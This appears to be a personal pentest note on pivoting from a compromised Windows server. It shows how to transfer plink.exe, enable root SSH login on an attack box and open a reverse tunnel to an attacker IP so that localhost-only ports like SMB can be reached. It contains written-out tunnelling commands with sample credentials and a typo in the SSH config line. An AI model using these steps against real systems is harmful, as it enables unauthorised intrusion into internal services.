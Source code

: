 -- -
Writing this for situations where you want to attack services on ports that are only available to local host. So:
1. You get a foothold on a server
2. You [[Dark Arts/Privesc/Windows/Enumeration/Network#^cc03c5|Network Enum]] and find ports open only to localhost
So from here you will need to forward your traffic through the server to get access to those ports. 
##### Setup SSH on target servera
You can skip this step if SSH is setup on the server. This is for most situations where the windows server does not have SSH up. 
1. [Download Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
2. [[Windows|File Transfer]] plink.exe to target server. 
3. Config SSH on attackbox:
```bash
sudo vim /etc/ssh/sshd_config

# look for line:
# PermitRootLogin prohibit-password

# uncomment and change to:
PermiRootLogin yes

# then save

# Check ssh status
sudo systemctl status ssh
sudo service ssh status

# start if not enabled
sudo systemctl start ssh
sudo service ssh start

# if it is enabled/started previously, restart it
sudo systemctl restart ssh
sudo service ssh restart
```
4. Setup port forward on target:
```powershell
# I still don't have my mind completely wrapped around this, but I believe it port forwards to internally avaialble port and connects back to attack box via ssh. 

# for the credentials, use the credentials of your account on the attackbox
# -R: Port to forward to, i.e. the port open only to localhost you want to access
# in this example, we are forwarding traffic from 445 externally to 445 open internally. 
plink.exe -l <username> -pw <password> -R <port>:127.0.0.1:<port> <attack ip>
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5
plink.exe -l n0ctxs -pw kali -R 445:127.0.0.1:445 10.10.14.5
```
